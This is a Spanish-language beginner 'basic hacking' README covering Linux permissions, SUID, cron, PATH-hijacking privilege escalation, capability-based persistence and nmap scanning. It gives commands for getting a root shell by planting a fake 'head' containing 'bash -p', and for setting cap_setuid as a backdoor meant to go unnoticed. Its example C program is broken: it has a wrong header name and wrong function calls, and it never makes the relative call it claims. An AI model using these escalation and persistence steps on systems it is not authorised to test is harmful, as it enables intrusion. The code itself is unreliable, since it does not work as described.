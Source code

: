 # HACKING BÁSICO
## Índice
<ol>
    <li> <a href="https://github.com/BySocram/hacking/blob/main/README.md#material-de-apoyo"> Material de apoyo </a> </li>
    <li> <a href="https://github.com/BySocram/hacking/blob/main/README.md#conceptos-b%C3%A1sicos"> Conceptos Básicos </a> </li>
    <li> <a href="https://github.com/BySocram/hacking/blob/main/README.md#pentesting"> Pentesting </a> </li>
</ol>

## Material de apoyo:
### Repositorios
<a href="https://gtfobins.github.io/"> GTFObins </a>

### Información
<a href="https://culturacion.com/como-crear-cuentas-de-usuario-en-linux/">  Guía de creación de usuarios en linux </a> <br>
<a href="https://www.pedroventura.com/linux/administracion-de-usuarios-en-linux-crear-borrar-modificar-usuarios-y-grupos/"> Administración de usuarios en linux </a> <br>
<a href="https://blog.desdelinux.net/permisos-basicos-en-gnulinux-con-chmod/"> Permisos básicos en GNU/Linux con chmod </a> <br>
<a href="https://blog.desdelinux.net/permisos-y-derechos-en-linux/"> Permisos y derechos en Linux </a> <br>
<a href="https://mural.uv.es/oshuso/8339_permisos_y_atributos.html"> Permisos y atributos </a> <br>
<a href="https://www.ochobitshacenunbyte.com/2019/06/17/permisos-especiales-en-linux-sticky-bit-suid-y-sgid/"> Permisos especiales en Linux: Sticky Bit, SUID y SGID </a> <br>
<a href="https://www.ibiblio.org/pub/Linux/docs/LuCaS/Manuales-LuCAS/doc-curso-salamanca-admin-avanzada/html/ch08s06.html"> El permiso SUID </a> <br>
<a href="https://www.redeszone.net/tutoriales/servidores/cron-crontab-linux-programar-tareas/"> Como utilizar Cron y Crontab en Linux </a> <br>
<a href="https://man7.org/linux/man-pages/man7/capabilities.7.html"> Capabilites - Linux manual page </a> <br>
<a href="https://www.incibe-cert.es/blog/linux-capabilities"> Linux kernel capabilities - No solo de sudo vive root </a> <br>
<a href="https://deephacking.tech/path-hijacking-y-library-hijacking/"> Path Hijaking y Library Hijacking </a> <br>
<a href="https://www.redeszone.net/tutoriales/configuracion-puertos/nmap-escanear-puertos-comandos/"> Nmap: Manual de uso </a> <br>
<a href="https://protegermipc.net/2018/11/07/tutorial-y-listado-de-comandos-mas-utiles-para-nmap/"> Tutorial y listado de comandos útiles para nmap </a> <br>

## Conceptos Básicos
### Permisos
    drwxr-xr-x marcos marcos 4.0 KB Mon Dec 26 23:45:52 2022  marcos

  d = type: directory

  rwx r-x r-x <br>
  u&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;g&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;o <br>
  111 101 101 <br>
<br>
  rwx = 111 = 7<br>
  rw- = 110 = 6<br>
  r-x = 101 = 5<br>
  r-- = 100 = 4<br>
  -wx = 011 = 3<br>
  -w- = 010 = 2<br>
  --x = 001 = 1<br>
<br>
  u = owner<br>
  g = group<br>
  o = others<br>
<br>
  r = read permision<br>
  w = write permision<br>
  x = execution permision<br>
  
### Permisos SUID
  El permiso SUID permite a un usuario ejecutar programas con los privilegios del root <br>
  Por ejemplo: EL comando passwd necesita acceder a los ficheros /etc/passwd en modo escritura, <br>
  y solo root puede hacerlo.
  <br>
  Se asignan usando el sigiente comando: <br>
  ```
  chmod 4755 <programa>
  ```
  Estaremos asignando lor privilegios 755 más el privilegio 4 o SUID <br>

### Tarea Cron
  Tarea que se ejecuta a nivel de sistema, a nivel regulares de tiempo.
  ```
  cd /etc/cron.d
  echo "* * * * * root /home/user/file.sh" > tareaCron
  ```
  En este comando nos dirijimos al directorio que se situa en /etc/cron.d donde crearemos nuestra tarea cron. <br>
  Los cinco asteriscos significan que queremos que la tarea se ejecute cada minuto, root significa el usuario que queremos <br>
  que la ejectue y por último tenemos la ruta /home/user/file.sh que es donde está el script en bash que ejecutara la tareaCron. <br>
  
  ### Explotación del PATH Hijaking
  Es una técnica de escalada de privilegios, con la cuál se utiliza el PATH que es una variable que almacena las rutas de los programas <br>
  hasta que encuentra la ruta del programa que hemos ejecutado. <br>
  <br>
  Un ejemplo de Path Hijaking sería el siguiente: <br>

  1. Creamos un programa en c que en este caso llamaremos app.c <br>
  ```
  touch app.c
  nano app.c
  ```
  2. Insertamos el siguiente código.<br>
     Este código saca las 10 primeras lineas del archivo passwd dos veces, la primera vez<br>
     lo hace usando la ruta absoluta del archivo y la seguna vez usando la relativa.
  ```
  #include <studio.sh>
  
  void main(){
  
    setuid(0);
    
    print("\n\n[*] Enseñando las 10 primeras lineas del archivo /etc/passwd usando /usr/bin/head \n\n");
    system("/usr/bin/head /etc/passwd");
    
    print("\n\n[*] Enseñando las 10 primeras lineas del archivo /etc/passwd usando head \n\n");
    system("/etc/passwd");
  
  }
  ```
  3. Compilamos el archivo app.c
  ```
  gcc app.c -o app
  ```
  4. Si le asignamos al programa compilado app el permiso SUID, al ejecutar el binario lo estaremos<br>
  haciendo como el usuario root. De esta forma se podría llevar a cabo el Path Hijacking, y haciendo un <br>
  del binario podríamos identificar que se esta llamando al archivo de forma relativa.
  ```
  chmod 4755 app
  strings app
  ```
  Podemos fijarnos que la respuesta del string nos dice que se esta usando setuid en el código, <br>
  lo que significa que se ejecutará con el usuario UID.<br> <br>
  
  5. Ahora que ya sabemos que se está ejecutando con el usuario UID, vamos a cambiar el PATH añadiendo la <br>
  ruta actual en la cuál vamos a crear un archivo con el nombre del programa que queremos suplantar, en este <br>
  caso el head.
  ```
  export PATH=.:$PATH
  echo "bash -p" > head
  ```
  Lo que hacemos con el primer comando es añadir como primera ruta para buscar los programas el directorio actual <br> (es temporal), después creamos un archivo para suplantar ese programa y que lo detecte el cual contiene un <br>
  comando para entrar como root.
  De esta manera al ejecutar el binario app con permisoso SUID ejecutará el comando head, el PATH buscará en orden <br> el programa en nuestro directorio actual, y ejecutará el código que hemos metido entrando al sistema como root.

### Abuso y explotación de las capabilities
En el caso de que ya se haya comprometido un equipo y hayamos dejado una una persistencia privilegiada, en este caso utilizaremos las capabilities.<br>
Para ver las capabilities que hayan definidas a nivel de sistema utilizamos el siguiente comando:
```
getcap -r / 2>/dev/null
```
Cuando estemos dentro de un equipo y asignemos una capabilite podemos asignar distintos tipos para que a la hora de entrar de nuevo al equipo no tenr <br>
que explotar la misma vulnerabilidad y entrar mas seguramente. Estas pasan desapercibidas ya que no tienen permisos SUID.<br>
En el siguiente enlace podemos ver una web donde muestra distintos tipos de capabilities que podemos crear para luego explotarlas y entrar facilmente:
<a href="https://gtfobins.github.io/#+capabilities"> GTFOBins: Capabilities </a> <br>
Para definir una capabilitie se usa el siguiente comando:
```
setcap cap_setuid+ep /usr/bin/<capabilitie>
```
Para remover una capabilitie se usa el siguiente comando:
```
setcap -r /usr/bin/<capabilitie>
```
## Pentesting
### Fase de Reconocimiento
Usaremos la herramienta nmap para esta fase.<br>
```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.0.1 -oG allPorts
```
**-p-** -> Indica que queremos escanear todos los puertos <br>
**--open** -> Indica que queremos escanear los puertos abiertos<br>
**-sS** -> Modo de escaneo para que vaya rápido y sigiloso, ya que no concluye la conexión(SYN -> [RST (cerrado) | SYN/ACK -> ACK])<br>
**--min-rate 5000** -> Para indicar que no queremos paquetes mas lentos a 5000 pqtes/s <br>
**-vvv** -> Para que los puertos que vaya detectando los vaya poniendo por consola <br>
**-n** -> Indica que no queremos que nos aplique la resolución DNS <br>
**-Pn** -> Para tratar los hosts como en línea y omitir el descubrimiento de ellos <br>
**192.168.0.1** -> IP de la cual queremos sacar los puertos<br>
**-oG allPorts** -> Indicamos que queremos que nos lo exporte en formato grepeable al archivo allPorts <br>
<br>
Ahora con el siguiente comando nos extrae la ip y los puertos de esta.
```
extractPorts allPorts
```
Los puertos se nos copiarán automáticamente en la clipboard.<br>
<br>
Ahora lanzamos un comando para detectar la versión y servicio que corren los puertos. <br>
```
nmap -sC -sV -p22,80,201 192.168.0.1 -oN targeted
```
**-sC** -> Para lanzar unos scripts defaults <br>
**-sV** -> Para sondear el servicio y versión del puerto <br>
**-oN targeted** -> Para exportarlo a el archivo targeted en formato nmap <br>

  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  

  
  
